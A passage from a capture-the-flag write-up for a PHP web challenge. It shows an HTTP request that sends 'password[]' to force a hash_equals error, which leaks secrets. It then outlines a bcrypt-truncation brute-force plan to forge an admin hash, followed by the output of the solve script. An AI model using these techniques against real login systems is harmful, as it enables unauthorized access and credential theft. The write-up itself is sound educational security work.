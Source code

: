 Nope. No errors.

Well, since there's no type check against with our POST parameter `password`, **what if we parse an array**?

```http
POST /index.php HTTP/1.1
Host: 34.84.32.212:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

auth=admin&password[]=
```

Response:

```html
<br />
<b>Fatal error</b>:  Uncaught TypeError: hash_equals(): Argument #2 ($user_string) must be of type string, array given in /var/www/html/index.php:13
Stack trace:
#0 /var/www/html/index.php(13): hash_equals('KeTzkrRuESlhd1V', Array)
#1 {main}
  thrown in <b>/var/www/html/index.php</b> on line <b>13</b><br />
```

Woah! We successfully caused a PHP error and leaked `$admin_password`.

Since **`$admin_password` is 15 characters long**, we don't need to brute force the last remaining character:

```php
<?php
[...]
$admin_password = "__REDACTED_____";
assert(strlen($admin_password) === 15);
```

## Exploitation

Armed with the above information, we can generate a valid admin password hash with the following steps:
1. Get a Bcrypt password hash without `$pepper2` via Bcrypt truncation
2. Leak the first 15 characters of `$pepper1` via PHP error
3. Brute force the last remaining character of `$pepper1`, the brute forcing hash is generated in step 1
4. Brute force `$pepper2` character by character via Bcrypt truncation
5. Leak `$admin_password` via PHP error
6. Generate a valid admin password hash with input `<pepper1>admin<admin_password><pepper2>` and get the flag

To automate the above steps, I've written the following PHP solve script:

<details><summary><strong>solve.php</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/TSG-CTF-2024/Web/I-Have-Been-Pwned)-[2024.12.16|12:43:16(HKT)]
└> php solve.php 
[+] Leaked the first 15 characters of pepper1: PmVG7xe9ECBSgLU
[*] Brute forcing pepper1 last character...
[*] Trying password: PmVG7xe9ECBSgLUAguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[+] Correct password: PmVG7xe9ECBSgLUAguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[+] Correct pepper1: PmVG7xe9ECBSgLUA
[*] Brute forcing pepper2 byte by byte...
[*] Trying password: PmVG7xe9ECBSgLUAguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA8
[+] Correct password: PmVG7xe9ECBSgLUAguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA8
[*] Trying password: PmVG7xe9ECBSgLUAguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA8o
[+] Correct password: PmVG7xe9ECBSgLUAguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA8o
[...]
```